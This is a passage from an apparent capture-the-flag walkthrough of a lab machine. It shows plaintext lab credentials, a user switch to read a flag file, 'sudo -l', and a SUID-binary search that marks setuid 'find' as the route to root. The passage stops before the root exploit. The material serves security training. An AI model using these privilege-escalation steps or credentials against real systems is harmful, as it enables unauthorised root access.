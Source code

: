 * Username: `stoner`
* Password: `superduperp@$$no1knows`

Answer: `backup`

## user.txt

Let's switch to user `stoner` and the user flag can be found in our home directory, in a file called `.secret`:

~~~
basterd@Vulnerable:~$ su stoner
Password: 
stoner@Vulnerable:/home/basterd$ cd
stoner@Vulnerable:~$ ls -la
total 16
drwxr-x--- 3 stoner stoner 4096 Aug 22  2019 .
drwxr-xr-x 4 root   root   4096 Aug 22  2019 ..
drwxrwxr-x 2 stoner stoner 4096 Aug 22  2019 .nano
-rw-r--r-- 1 stoner stoner   34 Aug 21  2019 .secret
stoner@Vulnerable:~$ cat .secret 
You made it till here, well done.
~~~

user.txt: `You made it till here, well done.`

## What did you exploit to get the privileged user?

Now we need to gain root access. I ran `sudo -l` to check my permissions and... :

~~~
stoner@Vulnerable:~$ sudo -l
User stoner may run the following commands on Vulnerable:
    (root) NOPASSWD: /NotThisTime/MessinWithYa
~~~

We got trolled again. I decided to find the executable files owned by root with SUID bit set using `find` command:

~~~
stoner@Vulnerable:~$ find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
-rwsr-xr-x 1 root root 38900 Mar 26  2019 /bin/su
-rwsr-xr-x 1 root root 30112 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 26492 May 15  2019 /bin/umount
-rwsr-xr-x 1 root root 34812 May 15  2019 /bin/mount
-rwsr-xr-x 1 root root 43316 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 38932 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 13960 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-- 1 root www-data 13692 Apr  3  2019 /usr/lib/apache2/suexec-custom
-rwsr-xr-- 1 root www-data 13692 Apr  3  2019 /usr/lib/apache2/suexec-pristine
-rwsr-xr-- 1 root messagebus 46436 Jun 10  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 513528 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 5480 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 36288 Mar 26  2019 /usr/bin/newgidmap
-r-sr-xr-x 1 root root 232196 Feb  8  2016 /usr/bin/find       <----------------------
-rwsr-sr-x 1 daemon daemon 50748 Jan 15  2016 /usr/bin/at
-rwsr-xr-x 1 root root 39560 Mar 26  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 74280 Mar 26  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 53128 Mar 26  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 34680 Mar 26  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 159852 Jun 11  2019 /usr/bin/sudo
-rwsr-xr-x 1 root root 18216 Mar 27  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 78012 Mar 26  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 36288 Mar 26  2019 /usr/bin/newuidmap
~~~
